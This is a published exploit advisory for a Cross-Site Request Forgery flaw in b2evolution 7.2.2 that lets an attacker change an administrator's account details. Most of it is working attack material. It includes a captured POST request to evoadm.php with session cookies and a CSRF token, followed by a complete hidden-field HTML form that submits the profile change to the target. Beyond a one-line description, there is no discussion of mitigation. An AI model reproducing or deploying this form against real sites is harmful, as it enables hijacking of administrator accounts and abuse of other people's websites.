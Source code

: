     # Exploit Title: b2evolution 7.2.2 - 'edit account details' Cross-Site Request Forgery (CSRF)
    # Exploit Author: Alperen Ergel (@alpernae)
    # Vendor Homepage: https://b2evolution.net/
    # Software Link: https://b2evolution.net/downloads/7-2-2
    # Version : 7.2.2
    # Tested on: Kali Linux
    # Category: WebApp

    ######## Description ########

    Allows to attacker change admin account details.

    ######## Proof of Concept ########

    ===> REQUEST <====

    POST /b2evolution/evoadm.php HTTP/1.1
    Host: s2.demo.opensourcecms.com
    Cookie: session_b2evo=1387_5XjmCda2lrphrrPvEEZqHq0CANmMmGDt;
    __cmpconsentx19318=CPIqFKEPIqFKEAfUmBENBgCsAP_AAH_AAAYgG9tf_X_fb3_j-_59__t0eY1f9_7_v-0zjheds-8Nyd_X_L8X_2M7vB36pr4KuR4ku3bBAQdtHOncTQmx6IlVqTPsb02Mr7NKJ7PEmlsbe2dYGH9_n9XT_ZKZ79_____7________77______3_v__9-BvbX_1_329_4_v-ff_7dHmNX_f-_7_tM44XnbPvDcnf1_y_F_9jO7wd-qa-CrkeJLt2wQEHbRzp3E0JseiJVakz7G9NjK-
    zSiezxJpbG3tnWBh_f5_V0_2Sme_f____-________--______9_7___fgAAA; __cmpcccx19318=aBPIqFKEgAADAAXAA0AB4AQ4DiQKnAAA;
    _ga=GA1.2.1294565572.1625137627; _gid=GA1.2.967259237.1625137627; __gads=ID=b3a3eb6f723d6f76-2210340b6fc800b7:T=1625137656:RT=1625137656:S=ALNI_MaB1e9iPH5NWYZhtIxGIyqg8LXMOA
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 1031
    Origin: https://s2.demo.opensourcecms.com
    Referer: https://s2.demo.opensourcecms.com/b2evolution/evoadm.php?blog=1&ctrl=user&user_tab=profile&user_ID=1&action=edit&user_tab=profile
    Upgrade-Insecure-Requests: 1
    Te: trailers
    Connection: close

    ## < SNIPP >

    edited_user_login=opensourcecms&edited_user_firstname=Hacker&edited_user_lastname=Hacker&edited_user_nickname=demo&edited_user_gender=M&edited_user_ctry_ID=233&edited_user_rgn_ID=&edited_user_subrg_ID=&edited_user_city_ID=
    &edited_user_age_min=&edited_user_age_max=&edited_user_birthday_month=&edited_user_birthday_day=&edited_user_birthday_year=&organizations%5B%5D=1&org_roles%5B%5D=King+of+Spades&org_priorities%5B%5D=&uf_1=I+am+the+demo+administrator+of+this+site.%0D%0AI+love+having+so+much+power%21&uf_new%5B2%5D%5B%5D=
    &uf_new%5B3%5D%5B%5D=&uf_2=https%3A%2F%2Ftwitter.com%2Fb2evolution%2F&uf_3=https%3A%2F%2Fwww.facebook.com%2Fb2evolution&uf_4=https%3A%2F%2Fplus.google.com%2F%2Bb2evolution%2Fposts&uf_5=https%3A%2F%2Fwww.linkedin.com%2Fcompany%2Fb2evolution-net&uf_6=https%3A%2F%2Fgithub.com%2Fb2evolution%2Fb2evolution&uf_7=
    http%3A%2F%2Fb2evolution.net%2F&new_field_type=0&actionArray%5Bupdate%5D=Save+Changes%21&crumb_user=zNkyQhORGCWRoCFgM0JhdvYkrqnYpCOl&ctrl=user&user_tab=profile&identity_form=1&user_ID=1&orig_user_ID=1




    #### Proof-Of-Concept ####

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://s2.demo.opensourcecms.com/b2evolution/evoadm.php" method="POST">
          <input type="hidden" name="edited_user_login" value="CHANGEHERE" />
          <input type="hidden" name="edited_user_firstname" value="CHANGEHERE" />
          <input type="hidden" name="edited_user_lastname" value="CHANGEHERE" />
          <input type="hidden" name="edited_user_nickname" value="CHANGEHERE" />
          <input type="hidden" name="edited_user_gender" value="M" />
          <input type="hidden" name="edited_user_ctry_ID" value="233" />
          <input type="hidden" name="edited_user_rgn_ID" value="" />
          <input type="hidden" name="edited_user_subrg_ID" value="" />
          <input type="hidden" name="edited_user_city_ID" value="" />
          <input type="hidden" name="edited_user_age_min" value="" />
          <input type="hidden" name="edited_user_age_max" value="" />
          <input type="hidden" name="edited_user_birthday_month" value="" />
          <input type="hidden" name="edited_user_birthday_day" value="" />
          <input type="hidden" name="edited_user_birthday_year" value="" />
          <input type="hidden" name="organizations[]" value="1" />
          <input type="hidden" name="org_roles[]" value="King of Spades" />
          <input type="hidden" name="org_priorities[]" value="" />
          <input type="hidden" name="uf_1" value="I am the demo administrator of this site.
    I love having so much power!" />
          <input type="hidden" name="uf_new[2][]" value="" />
          <input type="hidden" name="uf_new[3][]" value="" />
          <input type="hidden" name="uf_2" value="https://twitter.com/b2evolution/" />
          <input type="hidden" name="uf_3" value="https://www.facebook.com/b2evolution" />
          <input type="hidden" name="uf_4" value="https://plus.google.com/+b2evolution/posts" />
          <input type="hidden" name="uf_5" value="https://www.linkedin.com/company/b2evolution-net" />
          <input type="hidden" name="uf_6" value="https://github.com/b2evolution/b2evolution" />
          <input type="hidden" name="uf_7" value="http://b2evolution.net/" />
          <input type="hidden" name="new_field_type" value="0" />
          <input type="hidden" name="actionArray[update]" value="Save Changes!" />
          <input type="hidden" name="crumb_user" value="zNkyQhORGCWRoCFgM0JhdvYkrqnYpCOl" />
          <input type="hidden" name="ctrl" value="user" />
          <input type="hidden" name="user_tab" value="profile" />
          <input type="hidden" name="identity_form" value="1" />
          <input type="hidden" name="user_ID" value="1" />
          <input type="hidden" name="orig_user_ID" value="1" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>
